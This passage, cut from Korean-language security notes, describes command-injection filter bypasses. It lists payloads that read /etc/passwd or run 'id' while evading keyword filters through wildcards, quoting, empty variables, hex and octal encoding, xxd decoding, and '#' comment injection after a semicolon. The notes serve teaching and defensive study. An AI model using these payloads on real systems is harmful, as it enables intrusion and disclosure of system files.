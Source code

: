         cat</etc/passwd
        ```

<br/>

* 키워드 필터링 우회
    - ```"cat"``` 문자열을 필터링할 경우 우회할 수 있는 방법
        + 리눅스 와일드카드 ```?```, ```*```를 이용하는 방법
            ```linux
            /bin/ca* /etc/passwd
            /bin/c?t /etc/passwd
            ```
            | 와일드카드 문자 | 설명 |
            |:---:|------|
            | ```*``` | 모든 문자를 의미하는 특수문자 (0개 이상의 문자를 대체함) |
            | ```?``` | 하나의 문자를 의미하는 특수문자 (해당 위치의 1개의 문자로 대체함) |
        + ```''```, ```""```, ```\``` 문자를 이용하는 방법
            ```linux
            c''a""t /etc/passwd
            \c\a\t /etc/passwd
            ```
            | 문자 | 설명 | 예시 |
            |:---:|------|---|
            | ```''``` | 작은 따옴표로 감싸진 문자열을 일반 문자열로 인식하여 아무런 변환 없이 그대로 출력함 |
            | ```""``` | 따옴표 사이의 모든 특수문자를 일반 문자로 인식하지만, 명령어 대체 특수문자, 변수값 대체 특수문자 등 <br/> 몇몇 특수문자들은 예외로 하여 처리함 |
            | ```\``` | 특수문자 앞에 붙어 사용되며 해당 특수문자의 효과를 업해고 일반 문자처럼 처리해줌 <br/> (```\``` 뒤의 딱 한 문자만 처리함) |
        + 쉘 스크립트 변수 ```${}```를 이용하는 방법
            ```linux
            c${invalid_variable}a${XX}t /etc/passwd
            ```
    - ```"id"``` 문자열을 필터링할 경우 우회할 수 있는 방법
        + ```"id"``` 문자열을 변환하여 사용하는 방법
            ```linux
            echo -e "\x69\x64" | sh
            echo $'\151\144' | sh
            ```
        + 변수를 선언하여 해당 변수에 ```"id"``` 문자열을 대신할 수 있는 값을 넣은 후 ```id``` 대신 ```${변수}``` 형태로 사용하는 방법
            ```linux
            X=$"\x69\x64"; sh - c $X
            ```
    - ```"/etc/passwd"``` 문자열을 필터링할 경우 우회할 수 있는 방법
        + ```"/etc/passwd"``` 문자열을 16진수로 변환한 ```"2f6574632f706173737764"```를 사용하는 방법
            ```linux
            xxd -r -p <<< 2f6574632f706173737764
            cat `xxd -r -p <<< 2f6574632f706173737764`
            ```

<br/>

* 주석(Comments) 문자를 이용하는 방법
    - ```#``` 문자를 통해 입력값의 뒷부분을 주석 처리하는 방법
        ```linux
        ping "127.0.0.1"; id # "
        ```

